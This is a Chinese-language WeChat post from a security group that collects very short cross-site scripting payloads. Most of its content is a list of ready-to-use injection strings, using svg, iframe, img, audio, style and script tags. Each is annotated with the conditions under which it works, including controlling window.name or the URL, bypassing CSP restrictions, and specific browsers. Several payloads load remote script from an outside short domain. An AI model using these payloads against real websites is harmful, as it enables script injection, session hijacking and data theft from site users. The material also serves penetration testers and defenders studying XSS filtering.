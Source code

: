 ##  微小的XSS Payloads集合

雾晓安全TEAM  [ 雾晓安全 ](javascript:void\(0\);)

**雾晓安全** ![]()

微信号 gh_79582f17fd5a

功能介绍 雾晓安全专注于红蓝对抗，CTF夺旗赛等技术分享，并预警最新漏洞，定期分享常用渗透工具、教程等资源。

____

__

收录于话题

#WEB安全 15

#渗透测试 28

# XSS-Payloads

    
    
    <!-- 仅适用于反射型XSS --!>  
    <svg/onload=eval(name)>
    
    
    <!-- 如果你控制了 URL -->   
    <svg/onload=eval(`'`+URL)>
    
    
    <!-- 如果你控制了名字，但是 unsafe-eval 没有启用 -->   
    <svg/onload=location=name>
    
    
    <!-- 在 chrome 中，也适用于 innerHTML，即使在尚未插入 DOM 的元素上 -->   
    <svg><svg/onload=eval(name)>
    
    
    <!-- 如果您控制窗口的名称，此有效负载将在innerHTML 内工作，即使在尚未插入DOM 的元素上-->   
    <audio/src/onerror=eval(name)>  
    
    
    
    <!-- 如果您控制 URL，此有效负载将在 innerHTML 内工作，即使在尚未插入 DOM 的元素上 -->   
    <img/src/onerror=eval(`'`+URL)>
    
    
    <!-- 随便一个脚本 -->   
    <script/src=//Ǌ.₨></script>
    
    
    <!-- 如果你控制了窗口的名字 -->   
    <iframe/onload=src=top.name>
    
    
    <!-- 如果你控制了 URL -->   
    <iframe/onload=eval(`'`+URL)>
    
    
    <!-- 如果页面上的 iframe 数量不变 -->   
    <iframe/onload=src=top[0].name+/\Ǌ.₨?/>
    
    
    <!-- 仅适用于 Firefox -->   
    <iframe/srcdoc="<svg><script/href=//Ǌ.₨ />">
    
    
    <!-- 如果页面上的 iframe 数量是随机的 -->   
    <iframe/onload=src=contentWindow.name+/\Ǌ.₨?/>
    
    
    <!-- 如果在 CSP 中禁用 unsafe-inline 并且允许外部脚本 -->   
    <iframe/srcdoc="<script/src=//Ǌ.₨></script>">
    
    
    <!-- 如果允许内联样式 -->   
    <style/onload=eval(name)>
    
    
    <!-- 如果允许内联样式并且可以控制 URL -->   
    <style/onload=eval(`'`+URL)>
    
    
    <!-- 如果内联样式被阻止 -->   
    <style/onerror=eval(name)>
    
    
    <!-- 使用外部脚本作为导入，在innerHTML 中不起作用，除非Firefox -->  
    
    
    
    <!-- PoC 仅适用于 https 和 Chrome，因为 Ǌ.₨ 检查 Sec-Fetch-Dest 标头 -->   
    <svg/onload=import(/\\Ǌ.₨/)>
    
    
    <!-- 使用外部脚本作为导入，如果允许内联样式则触发。  
    <!-- PoC 仅适用于 https 和 Chrome，因为 Ǌ.₨ 检查 Sec-Fetch-Dest 标头 -->  
    <style/onload=import(/\\Ǌ.₨/)>  
    
    
    
    <!-- 使用外部脚本作为导入 -->   
    <!-- PoC 仅适用于 https 和 Chrome，因为 Ǌ.₨ 检查 Sec-Fetch-Dest 标头 -->   
    <iframe/onload=import(/\\Ǌ.₨/)>  
    

 **弃用：**

    
    
     <!-- 如果你控制了网址，Safari-only -->  
    <iframe/onload=write(URL)>
    
    
    <!-- 如果允许内联样式，仅 Safari -->   
    <style/onload=write(URL)>

 **演示：**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820084316.png)

 **Payloads 获取**

关注微信公众号雾晓安全后台回复“  **XSS-Payloads**  ”获取下载链接

  

 **网络安全攻防WiKi**

ID：61345404  

欢迎各位师傅通过微信扫描加入网络安全攻防WiKi，本星球宗旨以免费共享发展为前提，主要以网络安全攻防技术共享交流，覆盖网络安全资料，以及岗位内推。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820084317.png)

![]()

>  **免责声明**  
>
> 内容来源网络，版权归原创者所有，禁止使用本项目的任何形式进行发起网络攻击，阻止一切网络犯罪行为，一切信息禁止用于任何非法用途。除非无法确认，都会标明作者及出处，如有侵权烦请告知，我们会立即删除并致歉。谢谢！

觉得不错点个“ **赞** ”、“ **在看**
”，支持下小编![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820084318.png)

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

微小的XSS Payloads集合

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()


